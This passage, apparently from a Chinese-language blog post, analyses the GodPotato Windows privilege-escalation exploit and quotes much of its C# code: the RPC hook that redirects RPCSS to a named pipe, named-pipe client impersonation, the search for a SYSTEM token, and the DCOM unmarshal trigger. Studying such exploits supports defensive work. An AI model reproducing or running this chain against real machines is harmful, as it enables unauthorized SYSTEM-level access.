`godPotatoContext.clientPipe`是一个特定的字符串，定义了一个命名管道的路径，当`RPCSS`调用hook后的RPC函数，就会修改RPC服务的绑定设置为指定的命名管道路径，从而让RPCSS连接进这个命名管道中，为后续的身份令牌模拟操作奠定基础

```cpp
public readonly string clientPipe = $"ncacn_np:localhost/pipe/{"GodPotato"}[\\pipe\\epmapper]";

public int fun(IntPtr ppdsaNewBindings, IntPtr ppdsaNewSecurity)
{
    string[] endpoints = { godPotatoContext.clientPipe, "ncacn_ip_tcp:fuck you !" };

    int entrieSize = 3;
    for (int i = 0; i < endpoints.Length; i++)
    {
        entrieSize += endpoints[i].Length;
        entrieSize++;
    }

    int memroySize = entrieSize * 2 + 10;

    IntPtr pdsaNewBindings = Marshal.AllocHGlobal(memroySize);

    for (int i = 0; i < memroySize; i++)
    {
        Marshal.WriteByte(pdsaNewBindings, i, 0x00);
    }

    int offset = 0;

    Marshal.WriteInt16(pdsaNewBindings, offset, (short)entrieSize);
    offset += 2;
    Marshal.WriteInt16(pdsaNewBindings, offset, (short)(entrieSize - 2));
    offset += 2;

    for (int i = 0; i < endpoints.Length; i++)
    {
        string endpoint = endpoints[i];
        for (int j = 0; j < endpoint.Length; j++)
        {
            Marshal.WriteInt16(pdsaNewBindings, offset, (short)endpoint[j]);
            offset += 2;
        }
        offset += 2;
    }

    Marshal.WriteIntPtr(ppdsaNewBindings, pdsaNewBindings);

    return 0;
}
```


在`NewOrcbRPC`类中，还有多个`funX`函数来对`fun`函数进行包装，这是为了Hook时能够处理着不同参数数量的RPC函数，并将最后两个参数传递给fun函数（其实真正需要的是倒数第二个参数）

```cpp
 		public delegate int delegateFun4(IntPtr p0, IntPtr p1, IntPtr p2, IntPtr p3);
        public delegate int delegateFun5(IntPtr p0, IntPtr p1, IntPtr p2, IntPtr p3, IntPtr p4);
        .....
        .....
        public delegate int delegateFun14(IntPtr p0, IntPtr p1, IntPtr p2, IntPtr p3, IntPtr p4, IntPtr p5, IntPtr p6, IntPtr p7, IntPtr p8, IntPtr p9, IntPtr p10, IntPtr p11, IntPtr p12, IntPtr p13);
        
        
        public  int fun4(IntPtr p0, IntPtr p1, IntPtr p2, IntPtr p3)
        {
            return fun(p2, p3);
        }
        .....
        .....
        public  int fun14(IntPtr p0, IntPtr p1, IntPtr p2, IntPtr p3, IntPtr p4, IntPtr p5, IntPtr p6, IntPtr p7, IntPtr p8, IntPtr p9, IntPtr p10, IntPtr p11, IntPtr p12, IntPtr p13)
        {
            return fun(p12, p13);
        }
```


使用`RPC View`来分析GodPotato到底Hook了什么函数，由下图可以看到，RPC调度表的第一个函数是`UseProtseq`，此函数来自`IorCallback`接口，其原型如下所示，此函数的目的是注册或使用一个指定的协议序列，并返回新的绑定信息和安全信息。

而我们就是通过Hook此函数来修改其倒数第二个参数为我们指定的命名管道

```cpp
error_status_t UseProtseq(
    [in] handle_t hRpc,     // 用于表示RPC的句柄
    [in] unsigned short wTowerId,   // 表示要使用的协议序列的标识符
    [out] DUALSTRINGARRAY **ppdsaNewBindings,  // 注册协议序列后的新绑定信息
    [out] DUALSTRINGARRAY **ppdsaNewSecurity  // 新绑定相关的安全信息
);
```



​	

### 3.启动命名管道

在`GodPotatoContext`类中定义了一个`PipeServer`函数，用于创建并操纵命名管道。

`PipeServer`函数里，首先使用`CreateNamedPipe`函数创建一个命名管道，然后调用`ConnectNamePipe`函数监听命名管道的连接

当客户端连接进来后调用`ImpersonateNamedPipeClient`函数来模拟客户端的身份，并检查当前进程的模拟级别是否不足`identification`。如果是，则调用`RevertToSelf`函数结束模拟并恢复至模拟前的身份

在Windows中，模拟级别定义了一个线程可以执行的操作类型，级别从低都高依次是：`Anonymous`、`Identification`、`Impersonation`、`Delegation`

- `Anonymous`(匿名)：无法获取客户端的任何信息
- `Identification`(标识)：允许获取客户端的有关信息,但无法模拟客户端的身份来执行代码
- `Impersonation`(模拟)：允许模拟客户端的身份来执行代码，但仅限于服务器本地
- `Delegation`(委派)：允许模拟客户端的身份在与域上任何计算机执行代码，所谓的“域委派攻击”就是基于此类机制来实现的



​			

继续判断当前进程是否拥有`Impersonate`级别的权限(相当于Token中的`SeImpersonate`权限)，如果有，则调用`ListSystemHandle`函数枚举系统的所有句柄信息；再调用`ListProcessTokens`函数检查每个句柄的PID，来确定当前进程的句柄并获取其令牌，然后判断此令牌是否拥有`SYSTEM`权限；最后通过此令牌创建一个新的`WindowsIdentity`实例，后续可通过此实例来使用令牌创建高权限的进程

```c#
if (systemIdentity.ImpersonationLevel >= TokenImpersonationLevel.Impersonation)
{
    SharpToken.TokenuUils.ListProcessTokens(-1, processToken =>
    {
        if (processToken.SID == "S-1-5-18" && processToken.ImpersonationLevel >= TokenImpersonationLevel.Impersonation && processToken.IntegrityLevel >= SharpToken.IntegrityLevel.SystemIntegrity)
        {
            systemIdentity = new WindowsIdentity(processToken.TokenHandle);
            ConsoleWriter.WriteLine("[*] PID : {0} Token:0x{1:x} User: {2} ImpersonationLevel: {3}", processToken.TargetProcessId, processToken.TargetProcessToken, processToken.UserName, processToken.ImpersonationLevel);
            isFindSystemToken = true;
            processToken.Close();
            return false;
        }
        processToken.Close();
        return true;
    });
}
```


### 4.触发RPCSS

`GodPotatoUnmarshalTrigger`类的构造函数代码如下所示

`NativeMethods.CreateBindCtx`创建了一个绑定上下文, 其存储了执行COM操作(如解析名字对象)时所需的信息

`NativeMethods.CreateObjrefMoniker`创建了一个名字对象(Moniker), 用于后续引用或激活指向的COM对象

```cpp
public GodPotatoUnmarshalTrigger(GodPotatoContext godPotatoContext) {
    this.godPotatoContext = godPotatoContext;
	
	
    if (!godPotatoContext.IsStart)
    {
        throw new Exception("GodPotatoContext was not initialized");
    }


	// 获取一个对象的IUnkown接口指针
    pIUnknown = Marshal.GetIUnknownForObject(fakeObject);
    
    // 创建绑定上下文
    NativeMethods.CreateBindCtx(0, out bindCtx);
    
    // 创建名字对象
    NativeMethods.CreateObjrefMoniker(pIUnknown, out moniker);

}
```


`GodPotatoUnmarshalTrigger`类中的`Trigger`函数主要负责触发RPCSS

首先使用`GetDisplayName`函数获取DCOM对象的显示名称（这是一个包含DCOM对象信息的Base64编码字符串），随后将这个字符串解码并转换成字节数组

```cpp
string ppszDisplayName;
moniker.GetDisplayName(bindCtx, null, out ppszDisplayName);
ppszDisplayName = ppszDisplayName.Replace("objref:", "").Replace(":", "");
byte[] objrefBytes = Convert.FromBase64String(ppszDisplayName);
```


使用解码后的字节数组创建一个"临时"DCOM对象`tmpObjRef` ，目的是获取此对象的一些关键信息（如GUID、IPID、OXID等）

```cpp
ObjRef tmpObjRef = new ObjRef(objrefBytes);

// 打印DCOM对象的信息
godPotatoContext.ConsoleWriter.WriteLine($"[*] DCOM obj GUID: {tmpObjRef.Guid}");
godPotatoContext.ConsoleWriter.WriteLine($"[*] DCOM obj IPID: {tmpObjRef.StandardObjRef.IPID}");
godPotatoContext.ConsoleWriter.WriteLine("[*] DCOM obj OXID: 0x{0:x}", tmpObjRef.StandardObjRef.OXID);
godPotatoContext.ConsoleWriter.WriteLine("[*] DCOM obj OID: 0x{0:x}", tmpObjRef.StandardObjRef.OID);
godPotatoContext.ConsoleWriter.WriteLine("[*] DCOM obj Flags: 0x{0:x}", tmpObjRef.StandardObjRef.Flags);
godPotatoContext.ConsoleWriter.WriteLine("[*] DCOM obj PublicRefs: 0x{0:x}", tmpObjRef.StandardObjRef.PublicRefs);
```


利用之前获取到的DOCM对象的信息(OXID、OID、IPID)来创建第二个DCOM对象，将第二个对象的接口指定为`IID_IUnkown`（这是所有COM对象的基础接口）以及指定网络为`127.0.0.1`，这样表示访问本地机器上的DCOM对象

随后调用`UnmarshalDCOM.UnmarshalObject`函数解封此DCOM对象，以此来触发RPCSS

```cpp
private readonly static Guid IID_IUnknown = new Guid("{00000000-0000-0000-C000-000000000046}");
private readonly static string binding = "127.0.0.1";
private readonly static TowerProtocol towerProtocol = TowerProtocol.EPM_PROTOCOL_TCP;

ObjRef objRef = new ObjRef(IID_IUnknown,new ObjRef.Standard(0, 1, tmpObjRef.StandardObjRef.OXID, tmpObjRef.StandardObjRef.OID, tmpObjRef.StandardObjRef.IPID,
new ObjRef.DualStringArray(new ObjRef.StringBinding(towerProtocol, binding), new ObjRef.SecurityBinding(0xa, 0xffff, null))));

byte[] data = objRef.GetBytes();

godPotatoContext.ConsoleWriter.WriteLine($"[*] Marshal Object bytes len: {data.Length}");
            
IntPtr ppv;

godPotatoContext.ConsoleWriter.WriteLine($"[*] UnMarshal Object");
return UnmarshalDCOM.UnmarshalObject(data,out ppv);
```


`UnmarshalObject`函数调用的是`CoUnmarshalInterface`函数，此函数用于从序列化数据重构DCOM对象的接口，在处理DCOM对象的激活和解封等操作时会依赖于RPCSS服务来完成这些底层操作。

```cpp
public static int UnmarshalObject(Stream stm, Guid iid, out IntPtr ppv)
{
    return NativeMethods.CoUnmarshalInterface(new IStreamImpl(stm), ref iid,out ppv);
}
```